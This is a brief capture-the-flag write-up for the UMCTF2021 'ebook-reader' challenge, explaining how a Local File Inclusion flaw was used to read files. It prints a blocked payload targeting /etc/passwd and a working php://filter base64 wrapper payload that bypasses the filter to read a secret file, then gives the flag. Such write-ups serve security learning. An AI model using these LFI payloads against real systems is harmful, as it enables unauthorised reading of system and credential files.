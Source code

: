 # UMCTF2021 - ebook-reader

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{1fi_fi1ter_byp@55}*

## **Question:**
ebook-reader

## Write up

---

* Exploit Local File Inclusion to read arbitrary files, but the flag is not under /var/www/html
* After tested, there are some restrictions. Below payload is blocked.
```
index.php?file=/etc/passwd
```
* Find other PHP Wrappers to bypass the restrictions.
* Final payload, it will return base 64 encoded string
```
?file=php://filter/convert.base64-encode/resource=/flag/secret
```
* After decoded, you will get the flag **MOCSCTF{1fi_fi1ter_byp@55}**
![img](./resolve.png)